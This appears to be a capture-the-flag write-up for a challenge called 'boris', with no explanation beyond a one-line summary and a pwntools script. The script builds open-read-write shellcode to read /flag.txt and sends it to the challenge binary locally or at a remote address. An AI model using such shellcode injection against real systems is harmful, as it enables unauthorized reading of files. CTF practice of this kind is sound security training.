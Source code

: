 # b1-boris
## TLDR
Simple orw to read flag

## Complete write up
To do

## Solution
```py
#!/usr/bin/python2
from pwn import *
from sys import *

context.arch = "amd64"
# context.arch = "i386"

e = ELF('boris')
if(len(argv) == 2):
    p = connect("193.57.159.27", 22431)
else:
    p = process('boris')


cmd = """
b *0x0000555555554000+0x00000000000014CC
"""
if(len(argv) == 3):
    gdb.attach(p, cmd)

pload  = shellcraft.openat(-100, "/flag.txt", 0)
pload += "mov rbp, rax\n"
pload += shellcraft.read("rbp", "rsp", 500)
pload += shellcraft.write(1, "rsp", 500)
pload = asm(pload)
print disasm(pload)
pause()
p.sendline(pload)
p.interactive()
```

![[Pasted image 20211011092523.png]]